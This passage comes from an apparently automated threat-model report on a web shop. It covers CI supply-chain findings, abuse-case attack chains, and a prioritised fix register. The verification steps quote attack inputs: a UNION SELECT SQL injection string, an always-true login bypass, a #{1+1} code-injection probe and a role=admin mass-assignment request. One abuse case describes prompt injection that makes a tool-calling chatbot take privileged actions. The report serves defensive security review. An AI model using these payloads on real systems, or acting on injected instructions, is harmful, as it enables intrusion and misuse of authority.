**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◑ [M-023](#m-023) — Sign and verify release artifacts

**Classification:** Broken Authentication · STRIDE: Tampering · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-SUPPLY-04](#tc-supply-04) · Rules: IAC-040

<a id="t-089"></a><a id="f-089"></a>
#### F-089 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-028](#w-028) - Untrusted npm Install/Postinstall Scripts Enabled

**Instances (2):** `Dockerfile`: 4; `package.json`: 56

**Issue:** Dependency Install Scripts Run at Build Time: Without `--ignore-scripts`, any compromised dependency publisher can execute postinstall code at build time.

**Evidence:** ✓ verified

**Fix:** ◑ [M-024](#m-024) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-03](#tc-supply-03) · Rules: IAC-005

<a id="t-090"></a><a id="f-090"></a>
#### F-090 · Mutable third-party GitHub Action references

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Found by:** survey and scanners

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-045](#w-045) - Build pipeline trusts mutable third-party references

**Instances (3):** `.github/workflows/image_actions.yml`: 33; `.github/workflows/ci.yml`: 188; `.github/workflows/codeql-analysis.yml`: 23

**Issue:** Workflows reference actions by mutable tags: `.github/workflows/image_actions.yml:33` runs calibreapp/image-actions@main with the repository `GITHUB_TOKEN`, `.github/workflows/ci.yml:188` runs coverallsapp/github-action@v2 with the token, and `.github/workflows/codeql-analysis.yml:23` uses the floating v3 tag. A compromised publisher or re-tag could inject malicious code into CI with token access.

Most other actions are already pinned to full commit SHAs.

**Evidence:** ✓ verified

**Fix:** ◑ [M-101](#m-101) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-011

<a id="t-091"></a><a id="f-091"></a>
#### F-091 · Release packaging installs dependencies without lockfile

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:55`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-045](#w-045) - Build pipeline trusts mutable third-party references

**Issue:** `release.yml` runs npm install `--production` and npm install -g with semver ranges rather than npm ci, and `package.json` postinstall runs build scripts. A freshly published malicious dependency version is installed in the job that produces release archives, and no minimum release age gate exists.

**Evidence:** ✓ verified

**Fix:** ◑ [M-102](#m-102) — Commit lockfiles and install from them

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-092"></a><a id="f-092"></a>
#### F-092 · Container base images referenced by tag not digest

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** Multiple locations (2)

**Found by:** survey and scanners

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-027](#w-027) - Container base images referenced by tag not digest (`Dockerfile:1`)

**Instances (2):** `Dockerfile`: 1; `test/smoke/Dockerfile`: 1

**Issue:** Uses tag-only base images (node:24 and a distroless tag) and installs typescript with a caret range, and `test/smoke/Dockerfile:1` uses alpine with no tag. A replaced upstream tag can change the built image without any diff in the repository.

Existing controls: multi-stage distroless runtime, non-root user, SBOM generation.

**Evidence:** ✓ verified

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ◑ [M-025](#m-025) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-001

<a id="t-120"></a><a id="f-120"></a>
#### F-120 · Container Runs as Root

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** `test/smoke/Dockerfile:1`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Container Runs as Root: Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ◑ [M-026](#m-026) — Drop unnecessary privileges in build and runtime

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-INFRA-01](#tc-infra-01) · Rules: IAC-002

<a id="t-121"></a><a id="f-121"></a>
#### F-121 · Workflows without explicit least-privilege permissions

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-022](#w-022) - Workflows without explicit least-privilege permissions (`ci.yml:1`)

**Issue:** `ci.yml`, `release.yml`, `lint-fixer.yml`, `rebase.yml` and others declare no permissions block, so `GITHUB_TOKEN` takes the repository default, which may be read-write. A compromised step or dependency in these jobs, which run npm install of unlocked packages, could push code or modify releases.

**Evidence:** ✓ verified

**Fix:** ◑ [M-130](#m-130) — Add top-level read-only permissions blocks

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-269](https://cwe.mitre.org/data/definitions/269.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-122"></a><a id="f-122"></a>
#### F-122 · Missing Workflow Permissions Block

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - CI/CD Pipeline  ·  **Location:** Multiple locations (13)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-023](#w-023) - Missing Workflow Permissions Block

**Instances (13):** `.github/workflows/ci.yml`: 25; `.github/workflows/frontend-bundle-analysis.yml`: 13; `.github/workflows/image_actions.yml`: 21; `.github/workflows/lint-fixer.yml`: 6; `.github/workflows/rebase.yml`: 8; `.github/workflows/release.yml`: 10; `.github/workflows/stale.yml`: 7; `.github/workflows/update-challenges-ebook.yml`: 11 … (+5 more)

**Issue:** Missing Workflow Permissions Block: Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

**Evidence:** ✓ verified

**Fix:** ◑ [M-027](#m-027) — GitHub Actions workflow-level permissions block

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-CI-01](#tc-ci-01) · Rules: IAC-010

_**Reliability** says how sure this report is that a finding is real, not how severe it is. It is a judgement, not a probability._

---

## 9. Abuse Cases

_Abuse cases connect findings into attack scenarios, worst first. The verdict records whether repository evidence confirms the path. Risk is the highest risk among the linked findings; verification adds none._

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="58%" style="width:58%"><col width="18%" style="width:18%"><col width="24%" style="width:24%"></colgroup>
<thead><tr><th>Scenario</th><th>Risk</th><th>Verdict</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-004">AC-T-004</a> · Privilege Escalation via Mass-Assignment on Registration</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-005">AC-T-005</a> · Authentication Bypass via Exposed Secret Material</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-003">AC-T-003</a> · Privilege Escalation to Admin via JWT Algorithm Confusion</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-002">AC-B-002</a> · User gains more rights than intended</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-003">AC-B-003</a> · User takes over another account</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-007">AC-B-007</a> · User misuses a privileged function for another purpose</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-001">AC-B-001</a> · User reads or changes data of another user or tenant</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-005">AC-B-005</a> · User exceeds a limit or a one-time entitlement</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-007">AC-T-007</a> · Privileged Action via Prompt Injection into a Tool-Calling Model</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-002">AC-T-002</a> · Bulk Data Exfiltration via Broken Object Authorization</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">◐ Partially blocked</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-001">AC-T-001</a> · Account Takeover via XSS + Token Hijacking</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-006">AC-T-006</a> · Remote Code Execution via Server-Side Injection</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-004">AC-B-004</a> · User bypasses a required approval</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">not rated (no linked finding)</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-006">AC-B-006</a> · User keeps using a withdrawn right</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">not rated (no linked finding)</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
</tbody>
</table>

**Unresolved scenarios**

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="26%" style="width:26%"><col width="16%" style="width:16%"><col width="58%" style="width:58%"></colgroup>
<thead><tr><th>Case</th><th>Findings</th><th>Where it stands</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="ac-t-001"></a>AC-T-001 · Account Takeover via XSS + Token Hijacking</td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span>, <span style="white-space:nowrap"><a href="#f-003">F-003</a></span></td><td style="overflow-wrap:break-word">✓ Steps 1–2 confirmed<br/>? Step 3 inconclusive<br/><details><summary>Reasons</summary>Step 3: The matched sink is the Google OAuth implicit-flow redirect (response&#95;type=token). That is a different artifact from the app session token stolen in step 2.</details></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="ac-t-006"></a>AC-T-006 · Remote Code Execution via Server-Side Injection</td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-025">F-025</a></span></td><td style="overflow-wrap:break-word">? Step 1 inconclusive<br/><details><summary>Reasons</summary>Step 1: body.orderLinesData reaches safeEval (notevil) inside vm.runInContext on POST /b2b/v2/orders, behind JWT isAuthorized (server.ts:424), so not unauthenticated. notevil is a best-effort sandbox, not a security boundary. (routes/b2bOrder.ts:23)</details></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="ac-b-004"></a>AC-B-004 · User bypasses a required approval</td><td style="overflow-wrap:break-word">No matched finding</td><td style="overflow-wrap:break-word">? Step 1 inconclusive<br/>Open question: Does the process require separation between requester and approver?<br/><details><summary>Reasons</summary>Step 1: evidence not admitted (no evidence): No approval workflow exists in the supplied code. Product reviews are created, edited and liked directly with no approval or re-approval step, and the related findings are missing-authorization and in</details></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="ac-b-006"></a>AC-B-006 · User keeps using a withdrawn right</td><td style="overflow-wrap:break-word">No matched finding</td><td style="overflow-wrap:break-word">? Step 1 inconclusive<br/>Open question: How quickly must a revocation take effect?<br/><details><summary>Reasons</summary>Step 1: The only preselected source is the token-sale UI component. It only loads the altcoin name from the config and has no session, token, role or revocation logic. Revocation timing is also an open policy question.</details></td></tr>
</tbody>
</table>

_⚠ Fully viable: no effective control blocks the chain · ◐ Partially blocked: at least one step has a compensating control · ✓ Mitigated: the chain is broken at a verified step · ? Inconclusive: could not be verified end to end. Steps: ✓ confirmed · ✗ refuted · ? inconclusive._

_Proposed fixes address confirmed steps; their effectiveness still requires validation._

---

<a id="ac-b-002"></a>
### AC-B-002 — User gains more rights than intended

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-068](#f-068) — User registration accepts a client-chosen role | Check whether a user can give themselves or<br/>others a role or permission beyond what<br/>their own role or delegation allows. |

**Proposed fixes for confirmed steps**

- ● [M-081](#m-081) — Allow-list registration fields and force the customer role (**P1**): addresses 🟠 [F-068](#f-068) — User registration accepts a client-chosen role at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-004"></a>
### AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** technical abuse case · **Actor:** Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-067](#f-067) — Mass assignment of role on user registration | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Scenario impact**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Proposed fixes for confirmed steps**

- ● [M-080](#m-080) — Strip role from registration input (**P1**): addresses 🟠 [F-067](#f-067) — Mass assignment of role on user registration at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-b-003"></a>
### AC-B-003 — User takes over another account

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-022](#f-022) — Password reset relies on guessable security | Check whether anyone other than the verified<br/>owner can change an account's credentials or<br/>recovery data, such as email, phone number,<br/>or reset tokens. |

**Proposed fixes for confirmed steps**

- ◕ [M-042](#m-042) — Strengthen recovery with emailed one-time token (**P2**): addresses 🟠 [F-022](#f-022) — Password reset relies on guessable security at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-b-007"></a>
### AC-B-007 — User misuses a privileged function for another purpose

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices | Check whether a user can make a privileged<br/>function, such as support impersonation, an<br/>administrative action, or a background job,<br/>act on resources or perform operations<br/>outside that user's own authority. |

**Proposed fixes for confirmed steps**

- ◕ [M-075](#m-075) — Restrict product creation to administrators (**P2**): addresses 🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-b-001"></a>
### AC-B-001 — User reads or changes data of another user or tenant

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon | Check whether a user can read or change data<br/>that belongs to another user or tenant,<br/>through the primary operation or through an<br/>export, download, share link, search, or<br/>report. |

**Proposed fixes for confirmed steps**

- ◕ [M-029](#m-029) — Enforce basket ownership on lookup (**P2**): addresses 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-b-005"></a>
### AC-B-005 — User exceeds a limit or a one-time entitlement

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-036](#f-036) — Wallet top-up accepts unvalidated attacker-chosen balance | Check whether a one-time or limited<br/>entitlement, such as a coupon, voucher,<br/>quota, or balance, can be used more often or<br/>for more value than allowed, including by<br/>repeating or racing the operation. |

**Proposed fixes for confirmed steps**

- ◕ [M-054](#m-054) — Validate and bound top-up amount (**P2**): addresses 🟠 [F-036](#f-036) — Wallet top-up accepts unvalidated attacker-chosen balance at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-007"></a>
### AC-T-007 — Privileged Action via Prompt Injection into a Tool-Calling Model

> **Source:** technical abuse case · **Actor:** Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ⚠ Fully viable

**Goal:** Make the model invoke a privileged tool or return data the attacker is not entitled to, using the application's own authority.

**Prerequisite:** Attacker can place text into a conversation, document, or record that the application later sends to a language model.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-038](#f-038) — Chatbot accepts client-supplied message roles and history | The handler builds the prompt by<br/>interpolating request or stored text into<br/>the same string as the system instructions,<br/>so attacker text is read as instruction. |
| 2 | _no matching finding_<br/>`routes/chat.ts:184` | Tools exposed to the model run with the<br/>application's authority; a manipulated model<br/>turn therefore performs actions the caller<br/>could not. |

**Scenario impact**

Text an attacker can place anywhere the application later feeds to the model becomes instruction, and the tools behind that model run with the application's authority rather than the caller's - so a comment or a stored record reaches actions the attacker was never entitled to.

**Proposed fixes for confirmed steps**

- ◕ [M-056](#m-056) — Validate chat messages to user role only (**P2**): addresses 🟠 [F-038](#f-038) — Chatbot accepts client-supplied message roles and history at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** technical abuse case · **Actor:** Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Scenario impact**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Proposed fixes for confirmed steps**

- ● [M-065](#m-065) — Move secrets to a managed secret store (**P1**): addresses 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets at **Step 1**. Validate the fix against this step before treating the chain as blocked.
- ● [M-091](#m-091) — Pin RS256 in every token verification call (**P1**): addresses 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm at **Step 2**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-003"></a>
### AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** technical abuse case · **Actor:** Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | _no matching finding_<br/>`lib/insecurity.ts:157` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Scenario impact**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Proposed fixes for confirmed steps**

- ● [M-091](#m-091) — Pin RS256 in every token verification call (**P1**): addresses 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-002"></a>
### AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** technical abuse case · **Actor:** Internet Attacker - authenticated low-privilege user · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🟠 [F-067](#f-067) — Mass assignment of role on user registration | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Scenario impact**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Proposed fixes for confirmed steps**

- ◕ [M-029](#m-029) — Enforce basket ownership on lookup (**P2**): addresses 🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

## 10. Mitigation Register

Changes are ordered by priority: P1 before deployment, P2 this sprint, P3 next quarter, P4 backlog. Each entry links its findings and gives the available implementation steps and checks.

### P1 — Immediate

<a id="m-031"></a>
#### M-031 — Use bound parameters in product search query

**Addresses:**

- 🔴 [F-004](#f-004) — SQL injection in product search

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:**

1. Replace the template string with a query using :criteria replacements, binding the LIKE value via sequelize replacements or bind parameters.
2. Build the LIKE pattern in code, escape LIKE wildcards, and keep the length limit.

**Verification:** Send q=' UNION SELECT 1,2,3-- and confirm it is matched literally with no extra rows or SQL errors.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-032"></a>
#### M-032 — Enforce object-level (ownership) authorization (F-010)

**Addresses:**

- 🔴 [F-010](#f-010) — Insecure Direct Object Reference

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/payment.ts:41`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the AUTHZ-001 scanner check; it reports no match at `routes/payment.ts:41`, and the regression test passes.

---

<a id="m-033"></a>
#### M-033 — Use parameterized queries for login lookup

**Addresses:**

- 🔴 [F-011](#f-011) — SQL injection in login credential query

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:**

1. Replace the raw template-string query with `UserModel.findOne` using a where clause, or `sequelize.query` with replacements or bind parameters for email and password hash.
2. Validate that email is a string and reject non-string bodies.

**Verification:** Post an email containing a single quote and an always-true OR clause to `/rest/user/login` and confirm a 401 with no token issued, and add a regression test confirming parameter binding.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-034"></a>
#### M-034 — Remove eval of profile username

**Addresses:**

- 🔴 [F-012](#f-012) — Code injection

**Weaknesses addressed:** [W-001](#w-001)

**Prevents CWEs:**

- [CWE-95](https://cwe.mitre.org/data/definitions/95.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/userProfile.ts:61`

**How:**

1. Delete the eval branch and always treat the username as plain text.
2. HTML-encode the username before it is placed into the template.
3. Validate usernames on write to reject #{...} syntax.

**Verification:** Set username to #{1+1} and confirm the profile page shows the literal text rather than 2.

**Reference:** [CWE-95](https://cwe.mitre.org/data/definitions/95.html)

---

<a id="m-065"></a>
#### M-065 — Move secrets to a managed secret store

**Addresses:**

- 🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets

**Weaknesses addressed:** [W-046](#w-046)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:21`

**How:**

1. Remove the private key and HMAC secrets from source, rotate them, and load them from environment or a secret manager.
2. Use a separate secret for security-answer HMAC and deluxe tokens.

**Verification:** Search the repository for key material and confirm none remains; confirm old tokens fail after rotation.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-079"></a>
#### M-079 — Restrict registration fields with an allow-list

**Addresses:**

- 🟠 [F-066](#f-066) — Registration accepts privileged role from request body

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:408`

**How:**

1. Delete or ignore role and other privileged fields in registration.
2. Assign the customer role server-side.

**Verification:** Register with role admin and confirm the account is created as customer.

---

<a id="m-080"></a>
#### M-080 — Strip role from registration input

**Addresses:**

- 🟠 [F-067](#f-067) — Mass assignment of role on user registration

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:420`

**How:**

1. Delete or force `req.body.role` to 'customer' in a middleware before the finale create handler on POST `/api/Users`.
2. Assign privileged roles only through an authenticated admin-only endpoint.

**Verification:** POST `/api/Users` with `role=admin` and confirm the created user has role customer.

---

<a id="m-081"></a>
#### M-081 — Allow-list registration fields and force the customer role

**Addresses:**

- 🟠 [F-068](#f-068) — User registration accepts a client-chosen role

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:422`

**How:**

1. Strip role, `deluxeToken` and `isActive` from the registration body.
2. Set the role to customer on the server for self-registration.

**Verification:** Register with role 'admin' and confirm the stored role is customer.

---

<a id="m-091"></a>
#### M-091 — Pin RS256 in every token verification call

**Addresses:**

- 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

